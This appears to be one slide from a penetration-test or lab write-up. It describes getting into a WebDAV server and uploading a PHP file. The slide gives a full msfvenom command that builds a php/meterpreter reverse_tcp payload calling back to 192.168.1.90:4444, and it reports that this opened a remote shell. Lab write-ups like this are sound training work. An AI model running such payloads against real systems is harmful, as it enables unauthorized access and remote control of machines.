

# Exploitation: Unauthorized upload to webdav server
01

02

03

Tools & Processes
Once I gained access to the webdav server using the instructions found in secret_folder, I was able to then create a payload using msfvenom and successfully upload and execute that to the webdav server.

Achievements
This allowed me to establish a reverse tcp shell using the metasploit msfconsole.

[INSERT:

Commands I used were msfvenom php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 -f raw -o shell.php

(see next slide for screenshots of output)